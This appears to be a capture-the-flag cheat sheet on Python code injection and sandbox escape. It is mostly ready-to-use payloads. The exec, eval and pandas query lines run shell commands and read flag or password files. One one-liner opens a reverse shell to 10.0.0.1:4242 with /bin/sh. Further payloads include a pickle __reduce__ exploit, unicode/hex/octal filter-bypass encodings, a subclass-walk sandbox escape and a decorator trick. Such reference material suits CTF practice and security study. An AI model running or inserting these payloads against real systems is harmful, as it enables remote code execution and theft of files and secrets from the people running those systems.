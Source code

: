 * Python 3 builtin functions/constants - [Website](https://docs.python.org/3/library/functions.html)

    Python's builtin functions and constants provide a lot of useful information about the program's environment. Here are the most useful ones:

    | Function | Description |
    | --- | --- |
    | `dir()` | Without arguments, return the list of names in the current local scope. With an argument, attempt to return a list of valid attributes for that object. |
    | `vars()` | List variables and their value in the current scope with a dict object |
    | `help()` | Invoke the built-in help system. Can be used to execute commands for example in `help(help)` you just need to type `!ls` to execute `ls` |
    | `globals()` | Returns a dict object containing all global variables |
    | `locals()` | Returns a dict object containing all local variables |


* `exec`

    `exec` runs python code from a string. If the user can control the string, it can be used to execute arbitrary code.

    ```python
    exec("__import__('os').system('ls')") # List files
    exec("open('flag.txt').read()")       # Read flag.txt

    # Reverse shell to 10.0.0.1:4242
    exec('socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")') 
    ```

* `eval`

    `eval` evaluates a python expression from a string. It can also be used to execute arbitrary code, but does not allow for multiple statements. (with ';' or '\n')

    ```python
    eval("__import__('os').system('ls')") # List files
    eval("open('flag.txt').read()")       # Read flag.txt
    eval("(a:=globals())") # Walrus operator trick to assign globals() to a variable and return it
    ```
    
* Command obfuscation

    * Unicode

        Python keywords can be written in unicode. For example, `exec` can be written as `eｘec`. This very useful to bypass filters.

        ```python
        def find_unicode_variant(s):
            result = ""
            for c in s:
                offset = ord(c) - ord('A')
                result += chr(0xff21 + offset)
            return result
        ```

        Note: Unicode characters take more than a single byte to be represented in an encoded format. For example `ｘ` is represented by the bytes `ef bd 98`. This can be a problem if the input is filtered to remove non ascii characters or if the size of the input is limited.

    * Hex

        If the input is filtered before being passed to python, the hex representation can be used to bypass the filter.

        ```python
        exec("\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x6c\x73\x27\x29") # eval("__import__('os').system('ls')")
        ```

        Note: This does not work when the filter is in python since this string is strictly equivalent to `"__import__('os').system('ls')"`

    * Ocal

        Same as hex, it is an alternative representation of python strings.

        ```python
        exec("\137\137\151\155\160\157\162\164\137\137\50\47\157\163\47\51\56\163\171\163\164\145\155\50\47\154\163\47\51") # eval("__import__('os').system('ls')")
        ```


* Escape sandbox environment

    When the environment is sandboxed, some functions are not directly available. Global variables can be used to access them.

    ```python
    ().__class__.__base__.__subclasses__() # Gives access to `object` subclasses

* Python's 2 input() function

    `python2`'s `input()` function is equivalent to `eval(raw_input())` in python3. So, you can execute arbitrary python expressions.

    ```python
    open("/tmp/out.txt", "w").write(open(".passwd").readline().strip())
    ```

* Pickle deserialization injection

    `pickle.loads` can execute code when deserializing a user provided string.

    ```python
    class rce():
        def __reduce__(self):
            import os
            return (os.system, ('ls',))
    payload_bytestring = pickle.dumps(rce())
    ```

* Python libraries that can execute commands

    Some python libraries allows for code/command execution when provided with unsanitized input. Here are the most common ones:

    ```python
    df.query('@__builtins__.__import__("os").system("ls")') # Pandas dataframe
    subprocess.call("ls", shell=True)
    subprocess.Popen("ls", shell=True)
    pty.spawn("ls")
    pty.spawn("/bin/bash")
    ```

* When calls are disabled

    WHen calls are disabled, an attacker can use decorators still execute code.

    ```python
    # equivalent to X = exec(input(X))
    @exec
    @input
    class X:
        pass
    ```


    [Google CTF challenge](https://ctftime.org/task/22891)

